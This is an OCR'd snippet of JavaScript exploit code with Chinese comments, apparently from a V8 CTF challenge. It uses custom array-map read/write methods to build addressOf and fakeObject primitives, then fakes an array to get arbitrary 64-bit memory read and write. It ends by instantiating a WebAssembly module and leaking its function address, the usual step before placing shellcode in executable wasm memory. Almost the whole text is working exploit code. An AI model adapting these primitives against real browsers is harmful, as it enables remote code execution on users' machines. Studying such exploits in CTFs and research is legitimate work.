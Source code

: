 ```
var float_array_map = float_array.Myread();

// 泄露某个object的地址
function addressOf(obj_to_leak)
{
    obj_array[0] = obj_to_leak;
    obj_array.Mywrite(float_array_map);
    let obj_addr = f2i(obj_array[0]) - 1n;
    obj_array.Mywrite(obj_array_map); // 还原array类型，以便后续继续使用
    return obj_addr;
}

// 将某个addr强制转换为object对象
function fakeObject(addr_to_fake)
{
    float_array[0] = i2f(addr_to_fake + 1n);
    float_array.Mywrite(obj_array_map);
    let faked_obj = float_array[0];
    float_array.Mywrite(float_array_map); // 还原array类型，以便后续继续使用
    return faked_obj;
}


var fake_array = [
    float_array_map,
    i2f(0n),
    i2f(0x41414141n),
    i2f(0x1000000000n),
    1.1,
    2.2,
];

var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);

function read64(addr)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    let leak_data = f2i(fake_object[0]);
    console.log("[*] leak from: 0x" +hex(addr) + ": 0x" + hex(leak_data));
    return leak_data;
}

function write64(addr, data)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    fake_object[0] = i2f(data);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));    
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

var f_addr = addressOf(f);
console.log("[*] leak wasm func addr: 0x" + hex(f_addr));

```
